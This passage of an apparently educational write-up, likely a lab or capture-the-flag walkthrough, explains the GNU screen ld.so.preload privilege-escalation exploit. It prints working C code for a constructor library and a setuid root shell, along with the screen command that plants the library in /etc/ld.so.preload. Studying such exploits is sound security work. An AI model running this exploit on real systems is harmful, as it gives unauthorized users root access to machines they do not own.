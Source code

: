     cat << EOF > /tmp/libhax.c
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    __attribute__ ((__constructor__))
    void dropshell(void){
        chown("/tmp/rootshell", 0, 0);
        chmod("/tmp/rootshell", 04755);
        unlink("/etc/ld.so.preload");
        printf("[+] done!\n");
    }
    EOF
    gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
    rm -f /tmp/libhax.c
    

This library has a function that is marked as . [This means](https://gcc.gnu.org/onlinedocs/gcc-4.7.0/gcc/Function-Attributes.html#:~:text=The%20constructor%20attribute%20causes%20the,exit%20()%20has%20been%20called) it will run before execution enters main. It is very simple. It just changes the owner of to root:root, then changes the permissions to be SUID, removes the file , and prints a message. This code is compiled into `dropshell``__attribute__ ((__constructor__))``/tmp/rootshell``/etc/ld.so.preload``/tmp/libhax.so`

Next the script creates :`/tmp/rootshell`

    cat << EOF > /tmp/rootshell.c
    #include <stdio.h>
    int main(void){
        setuid(0);
        setgid(0);
        seteuid(0);
        setegid(0);
        execvp("/bin/sh", NULL, NULL);
    }
    EOF
    gcc -o /tmp/rootshell /tmp/rootshell.c
    rm -f /tmp/rootshell.c
    

It simply sets all the user and group ids to root and runs .`/bin/sh`

Now to the exploit. It’ll move into , and then run the following command:`/etc``screen`

    screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
    

The options are as follows:

*   `-D -m` - Start in “detached” mode, but don’t fork a new process, exiting when the session terminates`screen`
*   `-L ld.so.preload` - turn on automatic output logging for the window
*   `echo -ne "\x0a/tmp/libhax.so"` - command to run in the session, printing a newline followed by the path to the malicious library

So this will start screen output the path to the library, which will be logged to the file, and then exit.`/etc/ld.so.preload`
